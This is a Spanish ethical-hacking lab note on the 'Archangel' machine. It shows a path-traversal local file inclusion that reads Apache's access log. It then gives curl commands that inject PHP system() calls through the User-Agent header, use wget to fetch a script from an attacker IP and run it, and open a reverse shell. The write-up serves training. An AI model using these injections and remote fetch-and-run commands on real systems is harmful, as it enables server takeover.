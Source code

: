 #HackingGenerico #PinguinoMario #HackingEtico 
La máquina [[MAQUINA ARCHANGEL (Fuzzing, Local File Inclusion con wrappers, log poissoning y manipulación del PATH)]] tiene esta vulnerabilidad en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```
![[Pasted image 20230625161757.png]]
Por tanto, una vez visto esto, podemos intentar hacer un log poisoning, de tal forma que si probamos en ejecutar una petición con curl podemos inyectar texto dentro del apartado del user agent:
```bash
curl -s -X GET 'http://mafialive.thm' -H 'User-Agent:Pruebas'
```
![[Pasted image 20230706193634.png]]
Pero ahora si dentro del user-agent inyectamos un código php malicioso para ejecutar comandos, veremos que funciona:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```
![[Pasted image 20230706193823.png]]
Una vez hecho esto, montamos un servidor http con python y nos compartimos un fichero para enviarnos una reverse shell:
![[Pasted image 20230706195814.png]]
![[Pasted image 20230706195824.png]]
Y entonces ahora ejecutamos el comando wget para obtener este archivo y después bash pwned.sh para ejecutarlo y recibir la reverse shell:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Una vez ejecutado lo anterior, refrescamos y habremos recibido la reverse shell:
![[Pasted image 20230706200246.png]]
Y habremos recibido la reverse shell:
![[Pasted image 20230706200000.png]]
